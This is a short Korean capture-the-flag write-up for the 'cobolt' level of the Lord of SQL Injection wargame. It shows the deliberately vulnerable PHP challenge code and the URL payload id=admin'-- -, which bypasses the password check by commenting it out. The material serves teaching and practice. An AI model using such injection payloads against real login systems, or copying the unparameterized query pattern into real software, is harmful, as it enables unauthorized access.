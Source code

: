 Lord of SQL Injection No.2 - cobolt
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
```
위 코드에서 알 수 있는 것
-------------

preg_match로 인해 .과()이 id와 pw에 들어가 있으면 No Hack ~_~ 라고 뜨며 문제풀이에 실패하는 것을 알 수있다.

그리고 $result['id']에 admin이 들어가 있으면 문제풀이에 성공하는 것을 알 수 있다.(9번째줄)

문제 풀이법
-------------

1. id값에 admin을 넣어준다.

http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -

싱글쿼터로 admin에서 받는값을 끝내주고 뒤에 pw를 입력하지 않고 뚫기 위해 주석처리를 해준다.
